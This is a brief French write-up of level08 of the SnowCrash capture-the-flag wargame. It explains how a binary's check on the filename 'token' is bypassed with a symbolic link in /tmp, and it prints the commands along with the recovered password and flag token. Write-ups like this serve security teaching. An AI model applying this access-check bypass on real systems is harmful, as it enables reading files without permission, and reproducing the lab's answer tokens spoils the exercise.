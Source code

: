 Il a 2 fichiers, un binaire et un fichier texte qu'on ne peut lire faut d'avoir les droits pour.

```bash
./level08 token
You may not access 'token'
```

On décompile binaire et on s'aperçoit qu'il y a une règle empéchant de lire le fichier token : 
![Ghidra level08](image.png)


On crée un lien symbolique vers le fichier token et on appelle ce fichier en paramètre du binaire.
```bash
ln -s /home/user/level08/token /tmp/flag08
./level08 /tmp/flag08
quif5eloekouj29ke0vouxean
```
On se connecte au user flag08 et on éxécute la commande getflag :
```bash
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
